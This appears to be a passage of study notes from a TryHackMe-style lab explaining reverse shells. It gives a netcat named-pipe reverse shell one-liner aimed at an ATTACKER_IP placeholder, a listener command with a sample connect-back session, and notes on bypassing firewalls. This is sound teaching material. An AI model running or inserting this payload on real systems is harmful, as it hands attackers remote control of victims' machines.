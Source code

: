 Example **Pipe Reverse Shell Payload**:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
### Step-by-Step Explanation:
| Command Part                               | Meaning                                                                 |
|--------------------------------------------|-------------------------------------------------------------------------|
| `rm -f /tmp/f`                             | Remove any old pipe file named **f** in `/tmp/`.                        |
| `mkfifo /tmp/f`                            | Create a new **named pipe** at `/tmp/f` for communication.              |
| `cat /tmp/f`                               | Read input data from the pipe.                                          |
| ` sh -i 2>&1`                             | Send input into an interactive shell, redirecting errors to output.     |
| ` nc ATTACKER_IP ATTACKER_PORT >/tmp/f`   | Send shell output to attacker’s Netcat listener over network.           |
| `>/tmp/f`                                  | Write attacker’s commands back into the pipe (2-way communication).     |



# 📡 Example: Attacker Receives Reverse Shell

Attacker’s terminal shows:
```
attacker@kali:$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
target@tryhackme:$
```
✔ This means:  
- Victim machine (10.10.13.37) connected back.  
- Attacker now has shell access to victim system.  
- Attacker can run commands as if logged in locally.  



# 📊 Comparison: Reverse Shell vs Normal Connection

| Feature                  | Normal Connection                        | Reverse Shell (Hacking)                     |
|---------------------------|------------------------------------------|---------------------------------------------|
| **Who starts it?**        | User connects to server (e.g., browsing)| Victim connects to attacker (reversed).     |
| **Firewall visibility**   | Incoming request is checked              | Outgoing request (harder to detect).        |
| **Purpose**               | Normal usage (web, apps)                 | Unauthorized access for attacker.           |



# ⚡ Key Points
- Reverse Shell = Victim connects back to attacker.  
- Helps attacker bypass firewalls.  
- Needs **listener on attacker** and **payload on victim**.  
- Once connected → Attacker can fully control victim system.
---
# 🔗 Bind Shell
